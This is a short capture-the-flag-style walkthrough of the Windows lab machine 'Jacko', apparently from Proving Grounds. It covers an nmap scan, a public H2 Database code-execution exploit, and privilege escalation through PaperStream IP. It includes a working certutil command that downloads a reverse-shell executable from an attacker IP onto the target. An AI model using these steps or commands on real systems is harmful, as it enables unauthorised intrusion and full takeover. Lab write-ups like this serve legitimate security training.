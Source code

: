# 🏴 Jacko (Windows)

## 🧠 Initial Foothold

- Ran full Nmap scan:  
  ```bash
  sudo nmap -Pn -n 192.168.118.66 -sC -sV -p- --open -oN Jacko
  ```

- Discovered a web server on port 80.

- Found H2 Database version 1.4.199 running, searched and used exploit:  
  **H2 Database 1.4.199 - JNI Code Execution** ([EDB-ID 49384](https://www.exploit-db.com/exploits/49384))

- Uploaded a reverse shell payload to the target:
  ```bash
  certutil -split -urlcache -f http://192.168.45.158/shell.exe C:\Users\tony\shell.exe
  ```

- Gained a shell; upgraded from limited cmd shell to PowerShell by running:
  ```cmd
  set PATH=%PATH%;C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
  ```

---

## 🚀 Privilege Escalation

- Discovered with fiscanner that the host is vulnerable to:  
  **PaperStream IP (TWAIN) 1.42.0.5685 - Local Privilege Escalation** ([EDB-ID 49382](https://www.exploit-db.com/exploits/49382?ref=benheater.com))

- Generated payload using `msfvenom` for x32 and exploited the vulnerability for SYSTEM shell.

> 📚 Full walkthrough reference: [benheater.com/proving-grounds-jacko](https://benheater.com/proving-grounds-jacko/)

---

🧼 **Post-Exploitation Note:**  
Always clean up payloads and restore original system binaries.

> ⚠️ This walkthrough is for educational purposes only.
